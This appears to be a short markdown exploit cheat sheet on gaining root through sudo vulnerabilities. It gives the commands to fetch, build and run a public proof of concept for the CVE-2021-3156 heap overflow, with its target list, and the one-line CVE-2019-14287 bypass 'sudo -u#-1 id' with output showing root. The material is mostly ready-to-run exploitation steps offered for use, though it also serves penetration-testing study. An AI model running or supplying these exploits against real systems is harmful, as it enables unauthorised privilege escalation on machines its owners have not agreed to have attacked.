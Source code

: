 # 0-Days
`The Guide`

- [Sudo](#sudo)
  - [usage](#usage)
  - [Sudo policy bypass](#sudo-policy-bypass)


# Sudo
One of the latest vulnerabilities for sudo carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

    1.8.31 - Ubuntu 20.04
    1.8.27 - Debian 10
    1.9.2 - Fedora 33
    and others

To find out the version of sudo, the following command is sufficient:

```bash
sudo -V | head -n1
```
**POC**
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```
### Usage
```bash
./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

```
### Sudo Policy Bypass
> Another vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.
```bash
sudo -u#-1 id
id
uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```
